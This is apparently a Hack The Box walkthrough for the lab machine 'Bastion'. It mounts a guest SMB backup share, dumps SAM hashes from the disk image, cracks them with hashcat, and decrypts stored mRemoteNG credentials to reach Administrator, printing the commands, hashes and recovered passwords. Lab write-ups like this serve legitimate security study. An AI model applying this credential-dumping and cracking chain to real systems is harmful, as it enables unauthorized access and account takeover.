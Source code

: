 ```Bastion:HTB````

```10.10.10.134```

Nmap scan:
```
port 445,139
``` 

```
apt-get install libguestfs-tools
apt-get install cifs-utils
```
```
mount -t cifs //10.10.10.134/backups -o user=guest,password= /mnt/remote


guestmount --add /mnt/remote/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd -v

```

Smbclient
```
smbclient //10.10.10.134/backups
```

On mounting the drive number 2, I was able to access it. I didnot get any flags in there. So, I remember something, SAM and SYSTEM can be used to dump password hashes using :

```
./pwdump.py /root/tools/SYSTEM /root/tools/SAM

```
Which is inside the creddump7 suite , available on github.

Here are the hashdumps

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
``` 

You can crack the hashes via cracksation or hashcat.
```
hashcat -m 1000 --force 26112010952d963c8dc4217daec986d9 /usr/share/wordlists/rockyou.txt
```

Here is the cracked hash:
```
26112010952d963c8dc4217daec986d9:bureaulampje
```
Now you can use ssh to connect to the machine to get user shell.

```ssh L4mpje@10.10.10.134
```
Once inside, you have to enumerate and find that there is an application known as mRemoteNG which is located in ProgramFiles(x86). After looking it up, it is vulnerable.

I downloaded the same version. Checked the changelog.txt and found that the version was https://github.com/mRemoteNG/mRemoteNG/releases/tag/v1.76.11 and downloaded it to my windows machine. Transffered the conf file to the windows PC and replaced my original conf file and loaded it. Followed this link:
http://hackersvanguard.com/mremoteng-insecure-password-storage/

Donot change the password like he did. Make the external tool as shown and run it and you will get the password. Or you can use this mRemoteNG cracker script:

https://github.com/kmahyyg/mremoteng-decrypt/blob/master/mremoteng_decrypt.py
The -S is the password string

Here is the command and output.
```
./mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
```
The password is ```Password: thXLHM96BeKL0ER2```

Now ssh as the administrator with this password to have a shell with system privileges.